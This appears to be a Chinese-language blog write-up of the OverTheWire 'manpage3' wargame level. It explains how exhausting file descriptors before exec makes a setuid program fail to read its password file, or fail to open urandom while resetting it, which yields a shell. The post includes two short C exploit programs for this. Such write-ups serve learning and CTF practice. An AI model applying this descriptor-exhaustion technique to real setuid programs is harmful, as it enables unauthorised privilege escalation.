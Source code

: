 ```yaml
---
title: manpage3
author: rk700
layout: post
redirect_from: /writeup/2014/07/18/manpage3
tags:
  - OverTheWire
  - exploit
---
```

还是那个道理，打开的file descriptor会经过exec保存下来。我最开始的想法是，打开很多文件，然后执行manpage3，那么读密码那里就读空，因为密码文件打不开了 

{% highlight c %}
#include <unistd.h>
#include <stdlib.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>

int main (int argc, char *args[]) {
    int i;
    for(i=4; i<1024; ++i)
        open("./do.c", O_RDONLY);
    execl("./manpage3", "./manpage3", NULL);
}
{% endhighlight %}

这里上限1024是从`ulimit -n`得到的

在我的机子上这样是可以的，但在主机那里就不行了……

然后用同样的思路执行manpage-reset，使得urandom打不开。这样的话程序会崩溃，但密码文件是&#8221;w&#8221;打开，offset还在文件起始处，所以什么都没写就关闭了 

{% highlight c %}
#include <unistd.h>
#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>

int main (int argc, char *args[]) {
    int i;
    FILE *fp;
    for(i=4; i<1024; ++i)
        fp = fopen("/manpage/manpage3", "r");
    execl("/manpage/manpage3-reset", "/manpage/manpage3", NULL);
}
{% endhighlight %}

之后再执行manpage3，密码为空，得到shell
